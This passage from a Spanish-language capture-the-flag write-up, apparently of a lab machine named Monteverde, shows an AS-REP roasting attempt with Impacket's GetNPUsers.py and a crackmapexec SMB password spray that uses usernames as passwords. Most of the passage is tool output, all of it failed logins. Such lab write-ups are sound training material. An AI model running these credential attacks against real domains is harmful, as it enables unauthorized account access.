 ```bash
❯ GetNPUsers.py -no-pass -usersfile users.txt MEGABANK.LOCAL/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User AAD_987d7f2f57d2 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mhope doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SABatchJobs doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-ata doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-bexec doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-netapp doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User dgalanos doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User roleary doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User smorgan doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Ahora bien en vista que tenemos un listado potencial de usuarios validos podemos tratar de realizar fuerza bruta con `crackmapexec` usando la misma lista de usuarios como posibles contraseñas.

```bash
❯ crackmapexec smb 10.10.10.172 -u users.txt -p users.txt --continue-on-success
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:roleary STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:roleary STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:Guest STATUS_LOGON_FAILURE 
```
